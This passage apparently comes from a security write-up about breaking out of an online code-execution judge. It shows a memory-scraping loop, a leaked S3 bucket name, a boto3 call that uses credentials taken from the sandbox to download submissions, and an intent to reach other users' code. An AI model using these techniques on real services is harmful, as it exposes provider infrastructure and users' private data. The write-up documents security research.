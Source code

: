 ```python
                    leak = chunk[offset:offset + 800]
                    if b':' in leak:
                        print(leak)
    except Exception as e:
        pass
```
![memory dump](./images/2-scrape_memory.png)

Yay, that worked! Our bucket name is: `terraform-20210608051810146400000001`

What happens if we try to list the objects in the bucket.... Yup you guessed it... `Access Denied` again. So IAM is locked down well. But what about getting our own source file...

---

## Accessing S3 to get our own code submission
We can execute this locally since we have the necessary creds exported locally:
```python
import boto3
s3 = boto3.client('s3')
s3.download_file('terraform-20210608051810146400000001', '493657392343554/source.txt', '/tmp/mine')
```

And sure enough! We can download the code that we submitted! 
One interesting thing to note is that the code is a bit different than I added via the website. It has extra code that calls the function that's being tested. EG:
```python
import sys

A = int(sys.stdin.readline())
B = int(sys.stdin.readline())
C = int(sys.stdin.readline())

result = getSum(A, B, C)
print("BEGIN_RETURN_VALUE_OUTPUT")
print(result)
```

But other than that, it's not super interesting, I wonder if we can find out if we can access other people's submissions!!

---
